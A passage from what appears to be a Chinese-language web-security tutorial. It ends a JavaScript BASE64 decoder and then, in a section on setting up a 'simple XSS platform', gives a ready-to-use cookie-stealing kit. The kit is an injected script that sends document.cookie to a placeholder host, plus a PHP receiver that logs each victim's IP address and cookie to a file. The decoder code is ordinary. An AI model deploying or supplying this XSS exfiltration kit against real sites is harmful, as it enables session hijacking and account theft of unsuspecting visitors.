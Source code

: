 ```

        if(extra_Zero_Count > 0){
          binaryArray = binaryArray.slice(0 , binaryArray.length - extra_Zero_Count);
        }

        var unicode = [];
        var unicodeBinary = [];
        for(var i = 0 , len = binaryArray.length ; i < len ; ){
          if(binaryArray[i] == 0){
            unicode=unicode.concat(_toDecimal(binaryArray.slice(i,i+8)));
            i += 8;
          }else{
            var sum = 0;
            while(i < len){
              if(binaryArray[i] == 1){
                ++sum;
              }else{
                break;
              }
              ++i;
            }
            unicodeBinary = unicodeBinary.concat(binaryArray.slice(i+1 , i+8-sum));
            i += 8 - sum;
            while(sum > 1){
              unicodeBinary = unicodeBinary.concat(binaryArray.slice(i+2 , i+8));
              i += 8;
              --sum;
            }
            unicode = unicode.concat(_toDecimal(unicodeBinary));
            unicodeBinary = [];
          }
        }
        return unicode;
      }
  };

  window.BASE64 = __BASE64;
})();
```

## 2.4 简易xss平台搭建
JS脚本
```
var img = document.createElement("img");
img.src = "http://xxx/x.php?cookie="+document.cookie;
document.body.appendChild(img);
```
接收端

```
<?php  
$victim = 'XXS得到的 cookie:'. $_SERVER['REMOTE_ADDR']. ':' .$_GET['cookie']."\r\n\r\n";  
echo htmlspecialchars($_GET['cookie']);
$myfile = fopen("/aixi/XSS/xss_victim.txt", "a");
fwrite($myfile, $victim);
?>
```
![在这里插入图片描述](assets/20190527220829688.png)
